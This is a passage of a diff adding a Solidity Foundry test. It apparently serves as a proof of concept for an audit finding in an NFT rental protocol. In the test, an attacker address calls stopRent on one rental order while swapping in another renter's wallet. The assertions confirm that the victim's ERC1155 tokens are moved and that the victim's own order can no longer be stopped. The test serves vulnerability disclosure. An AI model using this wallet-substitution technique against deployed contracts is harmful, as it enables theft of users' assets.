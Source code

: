 ```diff
+            orderType: OrderType.BASE,
+            erc721Offers: 0,
+            erc1155Offers: 1,
+            erc20Offers: 0,
+            erc721Considerations: 0,
+            erc1155Considerations: 0,
+            erc20Considerations: 1
+        });
+
+        
+        // finalize the order creation
+ 
+(
+            Order memory orderCarolDan,
+            bytes32 orderHashCarolDan,
+            OrderMetadata memory metadataCarolDan
+        ) = finalizeOrder();
+
+        // dan rents it
+        createOrderFulfillment({
+            _fulfiller: dan,
+            order: orderCarolDan,
+            orderHash: orderHashCarolDan,
+            metadata: metadataCarolDan
+        });
+
+
+        // finalize the base order fulfillment
+        RentalOrder memory rentalOrderCarolDan = finalizeBaseOrderFulfillment();
+
+        // speed up in time past the rental expiration
+        vm.warp(block.timestamp + 800);
+
+        // stop the rental order
+        address attacker = address(0xa11ac7e4);
+        vm.prank(attacker);
+
+        // when stopping the rental order of alice-bob, attacker passes in the rental wallet address of dan. this will clear the alice-bob order but take the funds from dan's rental wallet
+        rentalOrderAliceBob.rentalWallet = address(dan.safe);
+        stop.stopRent(rentalOrderAliceBob);
+
+        // alice bob order is cancelled
+        assertEq(STORE.orders(orderHashAliceBob), false);
+
+        // but erc1155 is actually moved from dans wallet
+        assertEq(STORE.isRentedOut(address(bob.safe), address(erc1155s[0]), 0), true);
+        assertEq(erc1155s[0].balanceOf(address(bob.safe), 0), uint256(100));
+
+        assertEq(STORE.isRentedOut(address(dan.safe), address(erc1155s[0]), 0), false);
+        assertEq(erc1155s[0].balanceOf(address(dan.safe), 0), uint256(0));
+
+       // attempt to stop the carol-dan order reverts since the 
+       vm.expectRevert(Errors.StopPolicy_ReclaimFailed.selector);
+       stop.stopRent(rentalOrderCarolDan);
+       
+    }
+
     function test_StopRent_PayOrder_InFull_StoppedByLender() public {
         // create a PAY order
         createOrder({
```
